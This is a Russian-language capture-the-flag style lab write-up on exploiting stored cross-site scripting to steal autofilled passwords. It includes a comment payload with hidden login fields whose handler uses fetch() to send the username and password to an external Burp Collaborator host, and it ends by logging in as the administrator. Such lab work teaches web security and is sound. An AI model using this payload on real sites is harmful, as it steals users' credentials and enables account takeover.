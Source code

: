 # Exploiting cross-site scripting to capture passwords

## Theory

<h3>Использование межсайтовых сценариев для перехвата паролей</h3>

В наши дни у многих пользователей есть менеджеры паролей, которые автоматически заполняют их пароли. Вы можете воспользоваться этим, создав ввод пароля, прочитав автоматически заполненный пароль и отправив его на свой собственный домен. Этот метод позволяет избежать большинства проблем, связанных с кражей файлов cookie, и даже может получить доступ ко всем другим учетным записям, где жертва повторно использовала тот же пароль.

Основным недостатком этого метода является то, что он работает только с пользователями, у которых есть менеджер паролей, выполняющий автозаполнение паролей.

## Writeup

Главная страница:

![](./assets/1.png)

Перейдем к посту и спустимся в низ страницы. Мы можем заметить поле для комментария.

![](./assets/2.png)

Запустим Burp Collaborator Client и скопируем DNS.

![](./assets/3.png)

Запишем в поле комментария наш эксплоит, вставив скопированный ранее DNS. Код эксплоита:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://5ekw2z3agg276t39c94v71kc93ft3i.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

![](./assets/4.png)

Проверим Burl Collaborator Client. Там мы можем обнаружить данные пользователя.

![](./assets/5.png)

Логинимся под администратора и получаем ответ от сервера.

![](./assets/6.png)